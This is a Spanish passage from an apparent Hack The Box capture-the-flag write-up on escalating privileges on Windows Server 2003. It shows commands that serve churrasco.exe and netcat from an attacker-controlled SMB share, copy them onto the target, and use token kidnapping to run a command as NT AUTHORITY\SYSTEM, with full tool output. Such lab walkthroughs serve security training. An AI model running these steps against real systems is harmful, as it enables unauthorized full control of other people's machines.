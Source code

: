 ```
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 648 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,191 MB
Page File: In Use:         279 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

Como estamos ante un `Windows Server 2003` debemos usar `churrasco` para escalar privilegios [https://kashz.gitbook.io/kashz-jewels/services/windows-token-exploits#churrasco](https://kashz.gitbook.io/kashz-jewels/services/windows-token-exploits#churrasco). El binario lo he descargado de [https://the-pentesting-guide.marmeus.com/local_privilege_escalation/windows#token-kidnapping](https://the-pentesting-guide.marmeus.com/local_privilege_escalation/windows#token-kidnapping). Una vez descargado nos `montamos` un `servidor smb` en el `mismo directorio` donde está `churrasco.exe`

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Antes de descargarnos el binarios vamos a crear una carpeta en el directorio temporal de windows para descargar el archivo desde ahí

```
C:\WINDOWS\Temp\test> copy \\10.10.16.16\smbFolder\churrasco.exe
```

Nos `copiamos` también el `netcat`

```
C:\WINDOWS\Temp\test>copy \\10.10.16.16\smbFolder\nc.exe
```

`Ejecutamos` el `binario` para comprobar que funciona correctamente

```
C:\WINDOWS\Temp\test>churrasco.exe -d "whoami"
churrasco.exe -d "whoami"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 472 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0xf18
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0xf10
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
nt authority\system
```
